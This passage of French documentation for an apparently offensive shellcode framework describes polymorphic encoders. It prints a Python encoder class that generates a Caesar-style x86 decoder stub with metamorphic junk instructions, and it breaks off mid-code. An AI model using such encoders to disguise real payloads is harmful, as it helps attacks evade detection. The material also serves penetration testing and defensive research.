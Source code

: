 #### Polymorphisme

Le polymorphisme est pris en charge par les `encoders`. 

Analogues aux payloads, il est également possible d'intégrer des instructions métamorphiques au sein du template.

Après avoir été encodé via la fonction `encode_byte`, le payload est placé à la suite du décodeur.

```python
from modules.encoder.base import BaseEncoder
from modules.meta.metaengine import MetaEngine
from modules.meta.zero import Zero
from modules.meta.junk import Junk
from modules.patcher.shellcode_len import ShellcodeLen
from modules.patcher.offset import Offset


class CaesarMetaEncoder(BaseEncoder):
    def __init__(self, state):
        super().__init__(state)
        self.name = "Caesar metamorphic"
        self.options.add_patcher_options(Offset)

        self.add_patcher(Offset)
        self.add_patcher(ShellcodeLen)

    def decoder_32(self):
        meta = MetaEngine()
        meta.add(Junk)
        meta.add(Zero)

        return rf"""
section .text

global _start:

_start:
   jmp    one
   {meta.apply('junk', 32)}

four:
   pop    esi
   {meta.apply('zero', 32, reg1='ecx')}
   mov    cl,{ShellcodeLen.token}

two:
   sub    BYTE [esi+ecx-1],{Offset.token}
   sub    cl,1
   jne    two
   jmp    three

one:
   call   four

three:
"""

    def decoder_64(self):
        return rf"""
section .text

global _start:

_start:
```